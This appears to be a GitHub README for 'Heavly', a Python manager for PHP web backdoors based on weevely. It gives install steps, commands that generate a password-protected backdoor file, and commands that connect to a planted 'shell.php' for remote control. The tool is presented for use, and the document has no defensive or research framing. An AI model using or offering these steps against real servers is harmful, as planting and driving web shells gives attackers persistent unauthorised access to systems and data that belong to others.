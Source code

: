 # Heavly
Backdoor web in python

## Presentation
A web backdoor manager in python, using PHP backdoor, based on weevely

```
    [+] AUTOR:        Gilmar Silva
    [+] GITHUB:       https://github.com/HeavenH
    [+] TWITTER:      https://twitter.com/gilmarsilva_
```

### Install the requirements

```
   sudo pip install -r requirements.txt
```

### How to generate your backdoor:

```
    ./heavly.py -g "name_of_backdoor" "password of backdoor"
    python3 heavly.py -g "name_of_backdoor" "password of backdoor"
    heavly.py -g "name_of_backdoor" "password of backdoor"
 ```
 
### Connecting to the server:

 ```
    ./heavly.py -u "http://localhost/shell.php" "password"
    python3 heavly.py -u "http://localhost/shell.php" "password"
    heavly.py -u "http://localhost/shell.php" "password"
```
### Demo:
![demo](print.png)
